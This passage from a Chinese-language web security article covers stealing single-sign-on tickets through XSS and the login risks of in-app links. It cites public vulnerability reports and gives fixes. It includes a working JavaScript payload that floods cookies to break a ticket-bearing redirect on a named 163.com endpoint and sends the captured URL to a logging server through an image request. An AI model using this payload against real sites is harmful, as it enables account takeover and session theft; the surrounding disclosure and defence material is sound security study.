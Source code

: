 **场景3、中间页接收ticket完成认证，然后用302跳转到我们的目标页**

如下的多个302跳转

`http://passport.wangzhan.com/login.php?url=http://www.t99y.com/a.php`  
`http://t99y.com/login.php?ticket=XXXXXXXXXXXXXXXX&url=http://t99y.com/a.php`  
`http://t99y.com/a.php`

偷的方式

Xss创建iframe，种超长cookie，让含ticket的302拒绝服务，然后使用iframe.contentWindow.location.href读取最后的iframe的当前地址

拒绝服务还有个好处，防止某些ticket有防重放的防护

```
for (i = 0; i < 20; i++) {
    document.cookie = i + '=' + repeatt('X', 2000) + ';path=/auth'; } var iframe =document.createElement('iframe');
iframe.src="http://bobo.163.com/checkAuth?url=http://www.bobo.com/&";
iframe.addEventListener('load', function(){ var ntes =
iframe.contentWindow.location.href; var img1
=document.createElement('img'); img1.src = "http://127.0.0.1/163img.php?r="+encodeURIComponent(ntes); for (i = 0;
i < 20; i++) {
    document.cookie = i + '=' + repeatt('X', 1) + ';path=/auth'; } }, false); document.body.appendChild(iframe);

```

案例：[网易用户登陆状态下点我的链接我就可进入其邮箱、云笔记等服务](http://www.wooyun.org/bugs/wooyun-2010-0148110)

如上方法不适用于IE的一些版本，因为IE在打不开页面的时候加载的是自己本地的页面，导致错误页和我们的xss页面不同源

### 修复方案

由认证中心来跨域为子站设置认证cookie

单点自动登陆需要防护csrf，让用户不能伪造登陆请求

0x08 App内嵌页登录的风险
================

* * *

当我们在一个app内打开其公司产品的一些链接，会被加上认证信息去让用户自动登陆

微博客户端、QQ客户端、微信客户端都曾有或现在正有此问题，一般会加上参数sid、gsid、key

*   案例：[WooYun: 聊着聊着我就上了你……的微信（两处都可以劫持微信登录的漏洞）](http://drops.com:8000/%3Ca%20target=)">聊着聊着我就上了你……的微信
*   案例：[手机版QQ空间身份因素可被盗用](http://www.wooyun.org/bugs/wooyun-2010-027590)
*   案例：之前的一个手机qq的漏洞，找一qq域下论坛发一张图，然后把此页发给手机qq上好友，他点击就会被盗号

偷的几种方式

```
见单点登录场景一的几种方式
用户甚至会通过app的分享功能把认证信息分享到邮件或朋友圈

```
